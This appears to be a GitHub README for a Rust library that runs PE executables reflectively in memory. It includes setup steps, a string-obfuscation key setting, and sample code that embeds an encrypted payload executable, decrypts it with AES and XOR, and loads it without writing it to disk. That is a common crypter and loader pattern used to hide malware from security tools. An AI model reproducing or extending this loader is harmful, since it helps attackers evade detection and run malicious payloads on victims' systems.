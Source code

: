 ### reflective_loader_rs
Library that allows running PE files in memory

Installation
- Clone the Repository
```PowerShell
git clone https://github.com/tftftftft/reflective_loader_rs.git
```
- Add to dependencies ( Cargo.toml )
use runpe::runpe::reflective_loader;
```Rust
[dependencies]
rspe_lib = { path = "../rspe_lib" }
```


Don't forget to set LITCRYPT_ENCRYPT_KEY var. 
[Repo](https://github.com/anvie/litcrypt.rs)

```PowerShell
$env:LITCRYPT_ENCRYPT_KEY="myverysuperdupermegaultrasecretkey"
```
Sample code demonstrating how to use the library is commented within the lib.rs file.

```rust
#[link_section = ".rsrc"]
static DATA: &[u8] = include_bytes!("..\\payload_debug_xor_aes.exe");

// Main function
#[no_mangle]
 pub extern "C" fn main(_argc: isize, _argv: *const *const u8) -> isize {
     // let now = Instant::now();

     // make_sleep(5).expect("sleep failed");
     // println!("{}", now.elapsed().as_secs());

     let key = "16 BYTES KEY"; //String

     // Convert to bytes and create key_array in one step.
     let key_array: [u8; 16] = key
         .as_bytes()
         .try_into()
         .expect("Failed to convert key into a 16 byte array");

     let cipher = Cipher::new_128(&key_array);
     let decrypted_aes = cipher.cbc_decrypt(&key_array, DATA);
     let decrypted_xor = xor_decrypt(&key_array, &decrypted_aes);

     unsafe {
         reflective_loader(decrypted_xor.clone());
     };

    0
}
```

Environment Support
- This library supports a no_std environment.
